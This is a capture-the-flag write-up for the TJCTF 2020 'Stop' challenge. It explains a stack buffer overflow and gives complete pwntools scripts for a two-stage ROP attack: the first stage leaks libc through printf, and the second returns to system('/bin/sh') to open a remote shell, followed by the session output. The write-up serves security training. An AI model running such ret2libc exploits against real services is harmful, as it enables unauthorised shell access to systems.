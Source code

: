 # TJCTF 2020

## Stop

> 70
>
> I love playing stop, but I am tired of losing. Check out my new [stop answer generator](stop)!
>
> It's a work in progress and only has a few categories, but it's 100% bug-free!
> 
> `nc p1.tjctf.org 8001`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _buf_ _remote-shell_ _rop_ _libc_


## Summary

Leak libc address and version, return to `main` for a second exploit, get a shell, get the flag.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations.  !GOT.  No shellcode.  But, we have ROPtions (no PIE).  Stack left wide open, too.

    
### Decompile with Ghidra

![](main.png)

Lines 8 and 34 together are the vulnerability; a buffer (`local_118`) of `256` bytes, but read allows `0x256` (598) bytes.  Before we can do anything interesting we'll have to leak the address and version of libc.  Since there's no loop, we'll also have to return to main for a second pass.

`local_118` is `0x118` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined4        Stack[-0xc]:4      local_c
             undefined4        Stack[-0x10]:4     local_10
             undefined4        Stack[-0x14]:4     local_14
             undefined4        Stack[-0x18]:4     local_18
             undefined1        Stack[-0x118]:1    local_118
```

Both attacks will write out `0x118` bytes to get to the return address.


## Exploit

### Attack Plan

1. Leak libc address and version and return to main
2. Get a shell, get the flag


### Leak libc address and version and return to main

```python
#!/usr/bin/python3

from pwn import *

#p = process('./stop')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8001)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('./stop')

context.clear(arch='amd64')
rop = ROP('stop')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Which letter? ')
p.sendline('A')
p.recvuntil('Category? ')

payload  = b''
payload += 0x118 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binary.got['printf'])
payload += p64(binary.plt['printf'])
payload += p64(pop_rdi + 1)
payload += p64(binary.symbols['main'])

p.sendline(payload)
p.recvline()
p.recvline()
_ = p.recv(6)
```

Since there's no PIE we do not need to worry about leaking the base process address.  All we need is a `pop rdi` gadget and have `printf` print its own address.

> The extra returns (`payload += p64(pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

After sending `0x118` bytes to get to the return address, we just pop a return, then pop the address of `printf` from the GOT, then call `printf` to print it, then align the stack again , and then return to main for a second run.

With the `printf` address leaked (`_ = p.recv(6)`) we can search for the version using the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last three nibbles of the `printf` address:

```
# libc-database/find printf e80 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

Then rerun with:

```
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

to then leak the base address of libc:

```
printf = u64(_ + 2*b'\x00')
print('printf:',hex(printf))
baselibc = printf - libc.symbols['printf']
print('baselibc:',hex(baselibc))
```

> You'll know you got this right if the last three digits of the libc address is all zeros.  See output below.


### Get a shell, get the flag

```python
p.recvuntil('Which letter? ')
p.sendline('A')
p.recvuntil('Category? ')

payload  = b''
payload += 0x118 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

For the second pass, align the stack, pop the address of the string `/bin/sh` from libc, and then _return_ to `system` to get a shell:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8001: Done
[*] '/pwd/datajerk/tjctf2020/stop/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/stop/stop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 15 cached gadgets for 'stop'
printf: 0x7f4877692e80
baselibc: 0x7f487762e000
[*] Switching to interactive mode

Sorry, we don't have that category yet
$ cat flag.txt
tjctf{st0p_th4t_r1ght_now}
```